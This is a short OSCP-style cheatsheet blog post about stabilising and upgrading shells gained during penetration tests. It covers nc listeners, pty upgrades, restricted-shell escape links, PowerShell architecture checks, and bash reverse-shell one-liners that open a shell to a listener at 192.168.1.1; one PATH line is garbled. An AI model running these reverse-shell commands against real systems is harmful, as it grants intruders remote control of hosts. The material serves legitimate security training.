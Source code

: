 ```yaml
---
title: Upgrading and Improving Shells
author: sKyW1per 
category: "OSCP"
date: "2021-03-08 00:01"
tags: [OSCP, Cheatsheet]
layout: post
---
```



###### Tricks to improve a crappy shell
```
rlwrap
$ rlwrap -r nc -nvlp 443

Turning terminal echo off:
1
Ctrl + Z in the nc instance to move the shell to the background;
2
$ stty raw echo; fg
For also getting the ability to clear the screen:
3
In the nc shell:
$ export term=XTERM

```

###### Upgrading Shells
```
Upgrade sh to bash using python (2 or 3)
$ python -c 'import pty; pty.spawn("/bin/sh")'
$ python -c 'import pty; pty.spawn("/bin/bash")'

Correcting the $PATH variable for sh / bash
$ export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin/usr/bin:/sbin:/binusr/local/sbin:/usr/local/bin:/usr/sbin:/bin

Upgrading from rbash:
https://www.hacknos.com/rbash-escape-rbash-restricted-shell-escape/
https://www.hackingarticles.in/multiple-methods-to-bypass-restricted-shell/

Start bash instance:
$ /bin/bash -i >& /dev/tcp/192.168.1.1/80 0>&1
$ /bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.1.1/80 0>&1'

```

###### Check Architecture of a PowerShell connection

~|32 bit folder|64 bit folder|
---|---|---
32-bit session | C:\Windows\system32\ | C:\Windows\sysNative
64-bit session | C:\Windows\sysWOW64\ | C:\Windows\system32

```
Check architecture of the host
$ [system.environment]::Is64BitOperatingSystem

Check architecture of powershell environment:
$ [Environment]::Is64BitProcess

alternative to check arch in ps environment:
$ [IntPtr]::Size
The value of this property is 4 in a 32-bit process, and 8 in a 64-bit process.

For example: If you get a shell trough a webserver running in a 32bit process but the host is 64bit, powershell will by default open a 32bit process.
This can be solved by specifically calling powershell with the following path:
C:\Windows\sysNative\WindowsPowerShell\v1.0\powershell.exe

More info:
https://ss64.com/nt/syntax-64bit.html
```
